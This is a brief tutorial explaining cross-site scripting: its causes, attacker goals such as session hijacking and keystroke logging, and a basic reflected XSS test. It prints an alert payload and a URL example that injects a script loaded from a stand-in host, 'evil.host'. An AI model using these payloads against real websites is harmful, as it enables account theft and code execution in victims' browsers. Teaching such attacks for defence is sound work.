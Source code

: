 # Cross site scripting (XSS)

XSS allows attackers to inject malicious scripts into a webpage. It's usually caused by insufficient input validation and improper encoding of user input that is displayed on web pages, such as: search and filter functions, error handling, comment functionality, login pages and other forms that process and display user input in HTML responses. 

* Hijack accounts and sessions
* Steal sensitive information
* Modify page content and deface websites
* Redirect users to another webpage
* Record keystrokes
* Redirect to websites that exploit browser vulnerabilities
* Trick users into downloading files or entering information (e.g. via phishing)

## Basic technique
Put this in a form input field and see if it pops an alert box:
```
<script>alert("hello");</script>
```
This is an example of reflected XSS. A stored XSS attack would mean the malicious script was permanently stored in the database (e.g. as a comment on a discussion board).

JavaScript can also be injected through a URL, which an unsuspecting person might click in an email:
```
https://example.com/test.php?val=<script src=”http://evil.host/evil.js”></script>
```
